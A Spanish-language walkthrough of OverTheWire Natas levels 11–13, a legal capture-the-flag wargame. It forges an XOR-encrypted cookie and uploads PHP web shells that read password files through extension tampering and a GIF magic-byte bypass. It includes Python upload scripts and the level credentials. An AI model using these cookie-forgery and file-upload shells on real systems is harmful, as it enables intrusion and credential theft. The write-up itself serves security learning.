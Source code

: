 
## Natas11

Este ejercicio es mas complejo de lo habitual, basicamente te presenta un planel donde puedes cambiar el color de fondo de la página (con su representacion 
hexadecimal) y  un "index-source.html" en el que se muestra como toma los datos de ese color de antes y crea una cookie con ellos.
Lo he comprimido todo para que resulte mas legible.
```php
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");  //Diccionario por defecto ->  valor showpassword (no) y el color (blanco)

function xor_encrypt($in) { 
    $key = '<censored>';   $text = $in;   $outText = ''; // Un texto de entrada, una llave para encriptar y uno de salida tras la encriptacion.
    for($i=0;$i<strlen($text);$i++) { $outText .= $text[$i] ^ $key[$i % strlen($key)]; } // El algoritmo, no le vamos a prestar mucha atención
    return $outText;}   // El texto de salida ya encriptado.

function loadData($def) {
    global $_COOKIE;  
    $mydata = $def;   // Esto es la varaible $defaultdata de arriba solo que le han abreviado el nombre para liar.
    if(array_key_exists("data", $_COOKIE)) {   // Se comprueba que exista una cookie "data=algo"
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);  // La cookie que obtengamos se desencripta en "tempdata"
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) { 
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor']; }}}
    return $mydata;}  // $tempdata es un diccioanrio como el defaultdata (color y show password), $mydata cogera sus valores de $tempdata (replica pues)

function saveData($d) { setcookie("data", base64_encode(xor_encrypt(json_encode($d))));}  // Para crear la cookie data de $defaultdata supongo.

$data = loadData($defaultdata); // Esto es lo primero que hace el script, crear una cookie con el $defaultdata

if(array_key_exists("bgcolor",$_REQUEST)) {  // Esto simplemente es para comprobar que el color es valido y ponerlo de fondo
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) { $data['bgcolor'] = $_REQUEST['bgcolor']; }}
        
saveData($data);
```
Si hacemos una peticion curl al sistema se nos da una cookie. Cuyo nombre es "data" como decia el script.
```console
[cucuxii@parrot]~[natas]$: curl -s "http://natas11.natas.labs.overthewire.org" -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK -I                           
Set-Cookie: data=ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D   # El %3D es "=" en urlencode
```
En el script de antes decimos que tenemos el diccionario con el color y si nos va a mostrar la contraseña o no, un algoritmo que lo encripta y
otro que lo desencripta de igual manera.

```php
php > print(base64_decode("ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw="));
UK"H+O%▒pSWh]UZ-▒T%UhR^,^h   // bytes sin sentido, asi que habra que hacerlo todo de una
```
Vamos a crear un script que use la funcion xor_encript de antes, el base64 decode, el urldecode y el json encode para crear una cookie buena
```$data= array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");}"```

Tuve que investigar bastante, resulta que si tenemos un "xor", un texto encriptado y el mismo desencriptado ya podemos calcular la llave con eso, 
luego con la llave pues crear nuestro texto. 
El texto es la cookie que nos dan, y su version encriptada es el diccionario "defaultdata", de esos dos sacaremos la clave.
```php
<?php
$key = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=');
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
$text = json_encode($defaultdata);
$outText = '';

for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];}
print($outText);
?>
```
```console
[cucuxii@parrot]~[natas]$: php xor.php                                                                                                                     
qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
```
Ya tenemos la clave, ahora a crear con ella el diccionario bueno.
```php
<?php
$key = 'qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq';
$defaultdata = array("showpassword"=>"yes", "bgcolor"=>"#ffffff");
$text = json_encode($defaultdata);
$outText = '';

for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];}
print(base64_encode($outText));
?>
```
```console
[cucuxii@parrot]~[natas]$: php xor2.php 
ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
[cucuxii@parrot]~[natas]$: curl -s "http://natas11.natas.labs.overthewire.org" -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK \
> --cookie "data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK"
The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3<br>
```
## Natas12

Aquí hay un panel dónde podemos subir una foto, nos dicen que tiene que pesar máximo 1KB. Una vez subido te da un enlace para visualizarlo.
La cosa es crear un php ```<?php system("cat /etc/natas_webpass/natas13"); ?>``` con el nombre "natas.jpg"

Hay dos maneras de hacer esto
1. Subir el archivo pero interceptar con el burpsuite, cambiando el "filename: " de "natas.jpg" a "natas.php"
2. Hacer un script de python

```python
import requests
import re

url = 'http://natas12.natas.labs.overthewire.org/index.php'
name = 'natas12'
password = 'EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3'
php = open('natas.jpg', 'rb')
# Subimos el archivo
req = requests.post(url, auth=(name, password), data = {"filename":"natas.php", "MAX_FILE_SIZE":"1000"}, files = {"uploadedfile": php})
# Pillamos el link que nos da
url2 = url.replace("index.php", re.findall(r'<a href="(.*?)">',req.text)[0])
req2 = requests.get(url2, auth=(name, password))
print(req2.text) # Imprimir el resultado del php interpretado
```
## Natas13

Igual que antes, pero ahora valida que lo que subamos sea una foto, asi que el "natas.jpg" es algo diferente. ¿Como sabe el sistema que es una foto a parte de por la extension? Porque lee los primeros bits. Dichos bits en cualquier archivo son la cabecera, los cuales dicen que clase de archivo es.
Para imagenes se suele usar "GIF8"
```
GIF8;
<?php system("cat /etc/natas_webpass/natas14"); ?>
```
```python
import requests
import re

url = 'http://natas13.natas.labs.overthewire.org/index.php'
name = 'natas13'
password = 'jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY'
php = open('natas.jpg', 'rb')

req = requests.post(url, auth=(name, password), data = {"filename":"natas.php", "MAX_FILE_SIZE":"1000"}, files = {"uploadedfile": php})
url2 = url.replace("index.php", re.findall(r'<a href="(.*?)">',req.text)[0])
req2 = requests.get(url2, auth=(name, password))
print(req2.text)
```










